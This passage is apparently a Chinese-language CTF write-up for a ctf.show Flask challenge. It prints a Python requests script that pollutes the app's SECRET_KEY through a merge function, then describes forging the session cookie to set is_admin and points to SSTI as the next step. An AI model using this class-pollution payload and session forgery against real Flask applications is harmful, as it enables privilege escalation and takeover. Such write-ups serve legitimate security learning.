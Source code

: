 题做的少了，踩坑了

- 直接把payload填在账号密码处了
- hackbar发送账号密码payload是表单类型，不会进入merge函数的污染操作


这里用python发包

```python
import requests
import json

url = "http://077305e9-a873-4e8f-aafe-034240ae3a96.challenge.ctf.show/register"

payload={
    "username": "3",
    "password": "3",
    "__init__": {
        "__globals__": {
            "app": {
                "config": {
                    "SECRET_KEY": "abc"
                }
            }
        }
    }
}

r = requests.post(url=url, json=payload)
print(r.text)
```

把cookie里的session user值取出来解码一下，伪造is_admin的值，用伪造的seesion替换原session

![5](/medias/show-DSB/5.png)


在sercet路由下，界面发生改变，提示可以在echo路由下注入，flask注入应该就是ssti了。这一步如果替换seesion后，发现自己登录的账号退掉了，说明你secret_key污染失败了
